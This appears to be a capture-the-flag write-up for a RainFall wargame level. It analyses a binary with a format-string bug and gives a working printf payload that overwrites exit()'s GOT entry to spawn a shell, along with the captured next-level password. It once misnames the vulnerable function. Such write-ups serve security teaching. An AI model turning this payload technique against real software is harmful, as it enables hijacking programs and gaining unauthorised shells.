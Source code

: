 ## Step 1: Static & Dynamic Analysis

```c
080484a4    void o() __noreturn
080484a4    {
080484a4        system("/bin/sh");
080484bd        _exit(1);
080484a4    }


080484c2    void n() __noreturn
080484c2    {
080484c2        void var_20c;
080484e5        fgets(&var_20c, 0x200, __bss_start);
080484f3        printf(&var_20c);
080484ff        exit(1);
080484c2    }


08048504    int32_t main(int32_t argc, char** argv, char** envp)
08048504    {
08048504        n();
08048504    }
```

### Explanation
`v()` reads user input into a buffer (`var_20c`) using `fgets()` and then passes it directly to `printf()`.
This introduces a `format string vulnerability` because `printf()` interprets format specifiers if the input contains them.

The difficulty here is that we cannot overwrite the return address to jump to `o()` because `n()` doesn't return, it calls `exit()` immediately after `printf()`.  
The solution is to overwrite the `GOT` `(Global Offset Table)` entry of `exit()` with the address of `o()`.

```asm
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```
When the program call `exit()`, it first jumps to `exit@plt`, which is the `PLT` `(Procedure Linkage Table)` entry for `exit()`.

```asm
(gdb) disas
Dump of assembler code for function exit@plt:
=> 0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```
The first instruction jumps to the address stored in `0x8049838` (the GOT entry for `exit()`).

```asm
(gdb) x/1wx 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
```
We will replace this address with the address of `o()`.

```bash
level5@RainFall:~$ ./level5 
AAAA %x.%x.%x.%x.%x.%x.%x. 
AAAA 200.b7fd1ac0.b7ff37d0.41414141.2e782520.252e7825.78252e78.
level5@RainFall:~$
```
Here we can see our string input is stored in fourth position from `printf()` perspective.


## Step 2: Exploit the Binary

```bash
level5@RainFall:~$ python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5

% cd ../level6
% cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

The first part of the payload, `"\x08\x04\x98\x38"[::-1]`, represents the address of the `GOT` entry for `exit()` (`0x8049838`) in little-endian format. This address is injected so that `printf()` uses it as the target memory location for the write operation.

Next, the string `"%134513824d"` is used to generate a large number of printed characters. This ensures that printf()'s internal character count reaches exactly the value corresponding to the address of o() (`0x080484a4`).

Finally, the `"%4$n"` specifier tells `printf()` to write the total number of characters printed so far to the memory location specified by the fourth argument on the stack, which is the `GOT` entry for `exit()`. This effectively replaces the address of `exit()` with the address of `o()`.
